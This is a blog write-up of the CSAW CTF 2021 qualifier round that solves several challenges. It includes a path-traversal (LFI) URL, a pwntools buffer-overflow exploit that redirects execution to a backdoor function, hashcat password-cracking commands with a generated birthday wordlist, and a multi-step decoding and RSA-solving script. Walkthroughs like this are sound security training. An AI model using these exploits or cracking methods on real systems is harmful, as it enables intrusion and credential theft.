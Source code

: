 ```yaml
---
layout: post
title: CSAW CTF - 2021 
date: 2021-09-13 05:00:00 +0000
category: [CTFs,CSAW]
tags: [ctf,crypto,pwn,misc]
---
```


---
CSAW CTF is one of the oldest and biggest CTFs with 1216 teams with 1+ points in 2020. Designed as an entry-level, jeopardy-style CTF, this competition is for students who are trying to break into the field of security, as well as for advanced students and industry professionals who want to practice their skills. This blog post is on the CSAW CTF qualifier round 2021.
<br>
![cover_image](/assets/img/ctfs/csaw/1.png)

## <ins>Warm-up</ins>
---
### <ins>Turing</ins>
---
The task is to decode the cipher. Go to the url ```https://cryptii.com/pipes/enigma-machine``` and click on the ```Decode``` option. Also click on the ```Include``` button in the ```foreign characters```.
<br>
![decode_image](/assets/img/ctfs/csaw/2.png)
<br>
<pre>flag: flag{scruffy_looking_nerf_herder}</pre>

### <ins>Poem Collection</ins>
---
This challenge is based on ```LFI``` vulnerability. The vulnerable parameter is ```/poems/?poem=```. To get the flag go to the following url.
<br>
<pre>http://web.chal.csaw.io:5003/poems/?poem=../flag.txt</pre>

<pre>flag: flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}</pre>

### <ins>Crack me</ins>
---
This challenge is based on cracking a hash with salt. It is given in the description that the salt is the ```name of the hashing algorithm```. I identified it using the ```hash-identifier``` tool and found it to be ```SHA256```. Then I saved the contents of the hash and the salt in a local file with the format ```hash:salt```.
<br>
<pre>a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256</pre>

Then, we can crack it using ```hashcat```.
<br>
<pre>hashcat -a 0 -m 1420 hash.txt path-to-rockyou.txt</pre>

<pre>flag: flag{cathouse}</pre>


### <ins>Password Checker</ins>
---
This is a BOF or pwning challenge. The first thing I did after downloading the task files is overflowing the memory space with ```100 A's```. Then, I used ```gdb``` to disassemble the file. Some of the functions other than ```main``` which caught my attention are: ```password_checker``` and ```backdoor```. Just to make sure of the memory space allocated, I used ```Ghidra```. To get the flag we need to overflow the buffer space and rewrite the return address to point to the ```backdoor``` function.
<br>
<pre>
#!/usr/bin/python3

from pwn import *

#io = process("./password_checker")
io = remote('pwn.chal.csaw.io',5000)

offset = 72
exploit = b"A"*offset+p64(0x0000000000401172)

io.recvuntil(">")
io.sendline(exploit)

io.interactive()
</pre>

<pre>flag: flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}</pre>

---
## <ins>Forensics</ins>
---
### <ins>Lazy Leaks</ins>
---
This is very simple challenge. In this we need to retrieve the flag from the given ```.pcapng``` file.
<br>
<pre>strings Lazy_Leaks.pcapng | grep flag{</pre>

<pre>flag: flag{T00_L@ZY_4_$3CUR1TY}</pre>
---

## <ins>Crypto</ins>
---
### <ins>Gotta decrypt them all</ins>
---
After fiddling around the response received when netcatting the service I found the following workflow.
<br>
<pre> Morse code -> Decimal -> Base64 -> MiniRSA -> ROT13</pre>

<pre>
#!/usr/bin/python3

from pwn import *
from base64 import b64decode
import codecs
import gmpy2

#Morse code values put into a dictionary
dct = {'.----':'1', '..---':'2', '...--':'3','....-':'4', '.....':'5', '-....':'6','--...':'7', '---..':'8', '----.':'9','-----':'0'}

#Function to solve the MiniRSA puzzle
def rsa(n,c,e):
    for i in range(10000):
        m, is_true_root = gmpy2.iroot(i*n + c, e)
        if is_true_root:
            msg = format(bytearray.fromhex(format(m, 'x')).decode())
            break
    return msg

#Function to solve ROT13
def rot13(text):
   return codecs.encode(text,'rot13')

#Fcuntion to convert decimal nnumbers to ASCII
def decimal_to_ascii(text):
    s = ''
    for i in text:
        s += chr(i)
   
#Here comes the main
io = remote('crypto.chal.csaw.io',5001)

for _ in range(6):
    io.recvuntil("mean?")
    #Get the question
    io.recvuntil("\n")
    s = io.recvuntil(">>")
    
    #Convert from bytes to ASCII
    s = s.decode('ASCII')[0:-4]
    lst = list(s.split(" "))
    msg = ""

    #Convert from morse code to decimal
    for i in lst[0:-1]:
        if i[0] == '/': 
            msg += ' '
            msg += dct[i[1:]]
        else: 
            msg += dct[i]

    #print(msg)

    msg = list(msg.split(" "))

    decimal_to_base = ""
    
    #Convert from decimal to base64
    for i in msg:
        decimal_to_base += chr(int(i))
        
    #print(decimal_to_base)

    base64_conv = b64decode(decimal_to_base).decode("ASCII")

    rsa1 = list(base64_conv.split("\n"))
    #print(rsa)
    
    #Splitting the values from output
    n, e, c = int(rsa1[0][4:]), int(rsa1[1][4:]), int(rsa1[2][4:])
    rsa_to_rot = rsa(n,c,e)
    
    #rot13 decode
    res = rot13(rsa_to_rot)
    print(res)
    
    #Finally send the ans
    io.sendline(res)
    io.recvuntil("correct!")

print(io.recvall())
io.interactive()
</pre>
<br>
After running the file we can get the flag.
<br>
<pre>flag: flag{We're_ALrEadY_0N_0uR_waY_7HE_j0UrnEY_57aR75_70day!}</pre>
---

## <ins>Misc</ins>
---
### <ins>Weak password</ins>
---
The challenge is to crack the hash that is given in the description. It is also given that the password contains the name ```Aaron``` in the beginning followed by his ```birthday``` in the format ```YYYYMMDD```. So, we need to generate a list of passwords according to the condition given. Instead of using python, we can use the following ```bash one-liner``` to generate a list.
<br>
<pre>echo Aaron{1900..2021}{01..12}{01..31} | sed 's/ /\n/g' > attack.txt</pre>

The above command will create a file with the name ```attack.txt```.
<br>
Then, use ```hashcat``` to crack the password.
<br>
<pre>hashcat -a 0 -m 0 hash.txt attack.txt</pre>

<pre>flag: flag{Aaron19800321}</pre>

That's it folks. Happy hacking!!!


















